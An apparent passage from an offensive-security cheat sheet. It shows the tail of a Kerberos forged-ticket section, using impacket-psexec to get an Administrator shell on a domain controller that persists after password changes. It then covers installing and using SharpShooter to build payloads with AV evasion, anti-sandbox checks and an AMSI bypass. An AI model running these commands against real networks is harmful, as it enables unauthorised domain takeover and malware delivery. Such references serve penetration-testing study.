 ```
export KRB5CCNAME="/path/to/file.ccache"
```

> The surprising thing after this, is that no matter how much the Administrator user changes the password, it is not going to do him any good, since we can even do persistence with psexec without providing the password.

```
impacket-psexec -k -n pepe.local/Administrator@DC-NAME cmd.exe
```
![Ticketer](https://user-images.githubusercontent.com/84678370/129994100-20be12cd-b95d-4c97-8a2c-8e528a7a55df.png)

#### Add DC-NAME to your etc/hosts

---

# SharpShooter

> __SharpShooter__ is a `payload` creation framework for the `retrieval` and `execution` of arbitrary `CSharp` `source` `code`. SharpShooter is capable of creating payloads in a variety of `formats`, including `HTA`, `JS`, `VBS` and `WSF`. It leverages `James Forshaw's` `DotNetToJavaScript` tool to `invoke` methods from the SharpShooter `DotNet` `serialised` `object`. Payloads can be retrieved using `Web` or `DNS` delivery or both; SharpShooter is compatible with the `MDSec` `ActiveBreach` `PowerDNS` project. Alternatively, `stageless` payloads with `embedded` `shellcode` execution can also be generated for the same scripting formats.

- - __https://github.com/mdsecactivebreach/SharpShooter__

* * __git Install__
```
sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git

cd SharpShooter/

sudo pip install -r requirements.txt
```
* * SharpShooter Payload
> __SharpShooter__ payloads are `RC4 encrypted` with a `random` `key` to provide some modest anti-virus `evasion`, and the project includes the capability to integrate `sandbox` detection and environment `keying` to assist in evading `detection`.

```
usage: SharpShooter.py [-h] [--stageless] [--dotnetver <ver>] [--com <com>]
                       [--awl <awl>] [--awlurl <awlurl>] [--payload <format>]
                       [--sandbox <types>] [--amsi <amsi>] [--delivery <type>]
                       [--rawscfile <path>] [--shellcode] [--scfile <path>]
                       [--refs <refs>] [--namespace <ns>] [--entrypoint <ep>]
                       [--web <web>] [--dns <dns>] [--output <output>]
                       [--smuggle] [--template <tpl>]

optional arguments:
  -h, --help          show this help message and exit
  --stageless         Create a stageless payload
  --dotnetver <ver>   Target .NET Version: 2 or 4
  --com <com>         COM Staging Technique: outlook, shellbrowserwin, wmi, wscript, xslremote
  --awl <awl>         Application Whitelist Bypass Technique: wmic, regsvr32
  --awlurl <awlurl>   URL to retrieve XSL/SCT payload
  --payload <format>  Payload type: hta, js, jse, vba, vbe, vbs, wsf
  --sandbox <types>   Anti-sandbox techniques:
                      [1] Key to Domain (e.g. 1=CONTOSO)
                      [2] Ensure Domain Joined
                      [3] Check for Sandbox Artifacts
                      [4] Check for Bad MACs
                      [5] Check for Debugging
  --amsi <amsi>       Use amsi bypass technique: amsienable
```